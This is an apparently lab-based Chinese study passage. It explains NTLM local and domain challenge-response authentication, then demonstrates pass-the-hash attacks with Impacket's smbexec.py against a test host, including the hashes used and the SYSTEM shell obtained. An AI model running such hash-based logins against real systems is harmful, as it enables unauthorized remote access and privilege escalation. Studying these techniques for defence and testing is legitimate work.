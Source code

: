 域认证过程图如下

![domain](./domain.png)

  

两个过程共同点都是(1)由Server向Client发送Challenge；(2)Client用用户提供的hash加密Challenge并发送给Server

不同之处在于，本地认证中(3)Server直接从本地SAM Database查询用户对应的hash；而域认证则需要(3)Server调用NetLogon RPC创建Secure Channel，将Challenge和用户对Challenge的认证信息一起发送给DC。(4)DC根据所提供的用户信息从NTDS.DIT Database中查询用户hash

最后都使用从Database中查询的用户hash加密Challenge，再与用户提供的Challenge认证信息比较，如果结果相同，则验证成功，反之，验证失败

# PTH

PTH(pass the hash，哈希传递攻击)。Windows中NTLM协议和kerberos协议为了保护用户的明文密码，都是使用密码的hash来进行加密认证的，所以即使获取不了用户的明文密码，获取了hash也是能够进一步利用的
## 本地账户和域用户PTH的区别
以下我们用四个用户分别做了PTH的尝试，其中在域环境中User1和工作组管理员均成功，工作组普通用户normal和管理员组成员daem0nu失败

```bash
#域用户xie\User1
python smbexec.py xie/User1@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c4dab7a00c70c6b33154717b3c93a539 
#Impacket v0.11.0 - Copyright 2023 Fortra

#!] Launching semi-interactive shell - Careful what you execute
#C:\Windows\system32>whoami
#nt authority\system

#工作组普通用户normal
python smbexec.py normal@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b
#Impacket v0.11.0 - Copyright 2023 Fortra

#[-] DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied

#工作组管理员组用户daem0nu
python smbexec.py daem0nu@10.0.0.138 -hashes aad3b435b51404eeaad3b435b51404ee:c81ad28df9b2c069be535fd86434c03b                                                                       1 ⨯
#Impacket v0.11.0 - Copyright 2023 Fortra
```